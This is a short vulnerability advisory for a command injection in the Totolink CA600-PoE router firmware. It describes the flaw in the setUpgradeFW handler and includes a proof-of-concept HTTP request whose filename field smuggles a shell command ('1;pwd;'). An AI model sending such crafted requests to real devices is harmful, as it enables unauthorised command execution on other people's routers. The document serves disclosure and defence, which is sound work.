 ## Totolink CA600-PoE command injection

### Overview

* Vendor: TOTOLINK

* Product: Totolink CA600-PoE
* Version: V5.3c.6665_B20180820

* Manufacturer's address：https://www.totolink.net/
* Firmware download address ：https://totolink.id/data/upload/20181119/1da7db5e97165fe93f8a139889875bca.zip

### Vulnerability details

Totolink CA600-PoE V5.3c.6665_B20180820 was found to contain a command injection vulnerability in the `setUpgradeFW` function via the `FileName` parameter. This vulnerability allows attackers to execute arbitrary commands via a crafted request.

![image](./img/1.png)

#### PoC

```
POST /cgi-bin/cstecgi.cgi?action=upload&setting/setUpgradeFW HTTP/1.1
Host: 192.168.0.254
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/119.0
Accept: application/json, text/javascript, */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data
Content-Length: 11321126
Origin: http://192.168.0.254
Connection: close
Referer: http://192.168.0.254/adm/upload_firmware.asp
Cookie: SESSION_ID=2:1801026000:2
Upgrade-Insecure-Requests: 1
Content-Disposition: form-data; name="filename"; filename="1;pwd;"
```

